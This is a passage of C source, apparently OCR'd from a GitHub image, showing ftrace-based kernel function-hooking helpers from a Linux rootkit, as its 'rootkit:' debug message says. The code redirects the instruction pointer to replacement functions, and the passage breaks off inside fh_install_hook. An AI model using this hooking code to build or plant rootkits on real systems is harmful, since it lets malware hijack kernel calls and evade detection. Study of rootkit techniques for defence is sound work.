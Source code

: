         #if USE_FENTRY_OFFSET
            *((unsigned long*) hook->original) = hook->address + MCOUNT_INSN_SIZE;
        #else
            *((unsigned long*) hook->original) = hook->address;
        #endif

            return 0;
        }

        /* See comment below within fh_install_hook() */
        static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
        {
            struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

        #if USE_FENTRY_OFFSET
            regs->ip = (unsigned long) hook->function;
        #else
            if(!within_module(parent_ip, THIS_MODULE))
                regs->ip = (unsigned long) hook->function;
        #endif
        }

        /* Assuming we've already set hook->name, hook->function and hook->original, we 
        * can go ahead and install the hook with ftrace. This is done by setting the 
        * ops field of hook (see the comment below for more details), and then using
        * the built-in ftrace_set_filter_ip() and register_ftrace_function() functions
        * provided by ftrace.h
        * */
        int fh_install_hook(struct ftrace_hook *hook)
        {
            int err;
            err = fh_resolve_hook_address(hook);
            if(err)
                return err;

            /* For many of function hooks (especially non-trivial ones), the $rip
            * register gets modified, so we have to alert ftrace to this fact. This
            * is the reason for the SAVE_REGS and IP_MODIFY flags. However, we also
            * need to OR the RECURSION_SAFE flag (effectively turning if OFF) because
            * the built-in anti-recursion guard provided by ftrace is useless if
            * we're modifying $rip. This is why we have to implement our own checks
            * (see USE_FENTRY_OFFSET). */
            hook->ops.func = (ftrace_func_t)fh_ftrace_thunk;
            hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
                    | FTRACE_OPS_FL_RECURSION
                    | FTRACE_OPS_FL_IPMODIFY;

            err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
                return err;
            }
